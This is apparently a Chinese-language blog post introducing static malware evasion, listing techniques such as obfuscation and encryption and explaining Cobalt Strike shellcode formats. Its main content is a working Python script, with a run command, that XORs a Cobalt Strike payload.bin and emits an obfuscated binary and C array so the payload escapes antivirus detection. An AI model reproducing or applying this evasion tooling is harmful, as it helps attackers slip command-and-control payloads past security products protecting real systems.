



# TL;DR

静态恶意代码逃逸（Static Malware Evasion）指的是恶意软件使用各种技术来逃避静态分析的检测。静态分析是一种不执行程序代码，仅通过检查代码、文件结构和其他静态属性来检测和分析恶意软件的方法。以下是一些常见的静态恶意代码逃逸技术：

- 代码混淆
- 加密和压缩
- 分段加载
- 字符串隐藏
- 反逆向工程技术
- 伪代码插入
- 多态和变形

# 0X01 恶意代码的定义

关于恶意代码的定义都以Cobaltstrike的载荷为例

# 0x02 Shellcode定义

Shellcode是一段机器指令的集合，通常会被压缩至很小的长度，达到为后续恶意代码铺垫的作用。当然你可以通过msfvenom生成各种用于测试的shellcode。

# 0x03 RAW文件

RAW 中文意思是原始的、未经加工的，通常使用Cobaltstrike生成的**BIN文件**。



RAW文件是可以直接进行字节操作读取的，因此加载到内存较为方便，通常一般使用**混淆**的方式再生成一遍。

# 0x04 C文件



C文件给出的是一个C语言中的字符数组，也是可以通过以字节单位操作的。

# 0x05 组合

由于反病毒软件对于默认生成的文件查杀较为严格，我通常会采用混淆、加密解密的方式把载荷还原。

```python
import sys
from argparse import ArgumentParser, FileType
import logging

def process_bin(num, src_fp, dst_fp, dst_raw):
    shellcode = ''
    shellcode_size = 0
    shellcode_raw = b''
    try:
        while (code := src_fp.read(1)):
            base10 = ord(code) ^ num
            shellcode_raw += base10.to_bytes(1, 'little')
            code_hex = f'{base10:02x}'
            shellcode += f'\\x{code_hex}'
            shellcode_size += 1
        
        dst_raw.write(shellcode_raw)
        dst_fp.write(shellcode)
        return shellcode_size
    except Exception as e:
        logging.error(f"Error processing binary: {str(e)}")
        return 0

def main():
    parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
    parser.add_argument('-v', '--version', action='version', version='Shellcode X 1.0')
    parser.add_argument('-s', '--src', help='source bin file', type=FileType('rb'), required=True)
    parser.add_argument('-d', '--dst', help='destination shellcode file', type=FileType('w+'), required=True)
    parser.add_argument('-n', '--num', help='Confused number', type=int, default=90)
    parser.add_argument('-r', '--raw', help='output bin file', type=FileType('wb'), required=True)
    args = parser.parse_args()

    with args.src as src_fp, args.dst as dst_fp, args.raw as dst_raw:
        shellcode_size = process_bin(args.num, src_fp, dst_fp, dst_raw)
    
    print(f"[+] Shellcode Size : {shellcode_size}")

if __name__ == "__main__":
    logging.basicConfig(level=logging.INFO)
    main()
```

上面这个脚本用于把raw文件混淆，生成c语言数组，在后面的文章中，我们也以c/c++语言为主，探究其本质。

## 混淆方案

先生成bin文件，然后运行python脚本：

```
python3 .\main.py -s .\payload.bin  -d payload.c -n 10 -r out.bin
```

在payload.c中会看到raw文件里的每一个字节与10的异或运算出的C语言数组。



这个数组的内容，将由下一篇文章用到，实践一下Shellcode混淆免杀。

**注：-r 参数输出的是混淆过的二进制版本shellcode，-d 参数输出的是C语言格式的shellcode**